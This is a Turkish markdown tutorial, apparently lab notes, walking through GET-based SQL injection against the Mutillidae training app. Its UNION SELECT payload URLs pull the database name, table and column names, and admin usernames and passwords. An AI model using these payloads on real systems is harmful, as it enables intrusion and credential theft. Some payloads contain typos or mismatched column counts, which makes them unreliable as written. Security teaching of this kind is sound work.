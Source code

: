 > # 1-SQL Get ile Veri Tabanı İsmini Öğrenme

#### 1. URL'kısmına ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' order by1%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazıyoruz
#### 2. ```order by 2``` diyerek tek tek deniyoruz ve kaç sütun olduğunu öğreniyoruz
#### 3. Kaç sütun olduğunu anlatıktan sonra (varsayalım 5 sütun var)
#### 4. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, 2, 3, 4, 5%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazarak o sütundaki değerleri bastırıyoruz
#### 5. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, database(), user(), version(),5%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazıyoruz
#### 6. Veritabanı ismini, kullanıcı adını ve linux versiyonunu öğreniyoruz
---
> # 2-SQL Get ile Veri Tabanındaki Table Name Bulma

#### 1. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, table_name, null, null,5%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazıyoruz
#### 2. Bu şekilde tüm table'lları görürüz (sadece owasp10 değil)
#### 3. Belirli bir veritabanındaki table'lları görmek için ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, table_name, null, null, null,5 from information_schema.tables where table_schema='<veritabanıadı>%23&password=123456&user-info-php-submit-button=View+Account+Details``` 
---
> # 3-SQL Get ile Veri Tabanındaki Sütun Name Bulma

#### 1. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, column_name, null, null,5 from information_schema.columns where table_name='<tabloismi>'%23&password=123456&user-info-php-submit-button=View+Account+Details```
#### 2. Belirtilen tablodaki sütunları gösterir
---
> # 4-SQL Get ile Admin Bilgilerini Öğrenme

#### 1.```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, username, password, is_admin,5 from account%23&password=123456&user-info-php-submit-button=View+Account+Details```
#### 2. Admin kullanıcı adlarını ve şifrelerini görürüz
